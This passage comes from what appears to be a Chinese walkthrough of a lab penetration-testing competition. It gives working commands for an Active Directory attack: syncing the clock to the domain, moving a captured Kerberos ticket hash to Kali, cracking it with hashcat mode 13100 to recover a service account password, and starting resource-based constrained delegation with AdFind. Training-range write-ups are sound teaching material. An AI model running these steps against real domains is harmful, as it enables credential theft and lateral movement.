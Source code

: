 ![image-20220531110846000000-1656056164569161.png](img/中小型企业环境网络安全渗透赛 local/aef392ed4ad221fb5194e7b02a55199a.png)

把win10攻击机改成相同时间

```
net time /domain //查看域时间，横向移动的shell中执行

#win10攻击机执行
date 2022-5-31 //设置日期
time 4:21:00 //设置时间
#以实际查到的时间为准
```

![image-20220531111158000000-1656056166175076.png](img/中小型企业环境网络安全渗透赛 local/6e82cf8440bf6be376dc8d450b01bc46.png)

成功结果如下：

![image-20220528125810000000-1656056167781829.png](img/中小型企业环境网络安全渗透赛 local/d674ba29e8a051551f8703042f07e606.png)

成功获取服务用户：test

到桌面上新建的test.txt，将上述hash复制到test.txt中。

使用工具搭建文件服务，位置：`C:\Users\Administrator\Desktop\工具\辅助工具\hfs24rc06.exe`

![image-20220531112230000000-1656056169438906.png](img/中小型企业环境网络安全渗透赛 local/6c1a0099a9f0f15b51802c8ab94a5c3f.png)

到kali中下载刚刚的文件

```
wget http://56.47.34.113/test.txt -O /root/Desktop/test.txt
#具体网址以实际生成的为准
```

![image-20220531112544000000-1656056171057571.png](img/中小型企业环境网络安全渗透赛 local/ee8bf2e75985bf4d46a96f6aae2c2a23.png)

使用hashcat进行爆破

```sh
hashcat -m 13100  /root/Desktop/test.txt /root/Desktop/Tools/fuzzDicts/passwordDict/top3000.txt --force

–m表示选择不同的加密类型，其中13100对应的是Kerberos 5 TGS-REP类型的密文
```

![image-20220528125828000000-1656056172659316.png](img/中小型企业环境网络安全渗透赛 local/4163a168ebd5927ce051432c7e3d8ddf.png)

成功获取密码：Password@123

服务账户：test   密码：Password@123

##### 任务14：基于资源的约束委派利用（T1078-利用有效账户凭据、T1105-传输工具）

查看域用户的sid，AdFind工具位置：

`C:\Users\Administrator\Desktop\工具\内网渗透\域内工具\AdFind\AdFind.exe`

```sh
AdFind.exe -h 192.168.100.50 -u test -up "Password@123" -b "DC=BJ,DC=jyj,DC=com" -f "objectClass=computer" mS-DS-CreatorSID
```
